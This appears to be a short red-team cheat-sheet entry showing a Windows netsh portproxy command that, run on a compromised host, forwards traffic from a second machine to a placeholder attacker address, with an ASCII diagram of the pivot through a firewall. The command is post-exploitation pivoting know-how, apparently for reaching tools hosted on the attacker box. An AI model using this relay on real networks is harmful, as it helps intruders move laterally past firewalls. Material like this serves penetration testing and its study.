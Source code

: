 
Below is port forwarding syntax allowing us to forward traffic back to a port on our attacker (e.g., access to a simple web server hosting tools)

```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<client_port> connectaddress=<attacker_ip> connectport=<attacker_port>
```

Above code would be running on a compromised <client_01> and allow <client_02> to reach a specified port on our attacker box. 

Shitty Diagram Below:
```
	                    | FW |
<client_02> ---> <client_01>:<port> ---> <attacker_ip><port>
						| FW |
```
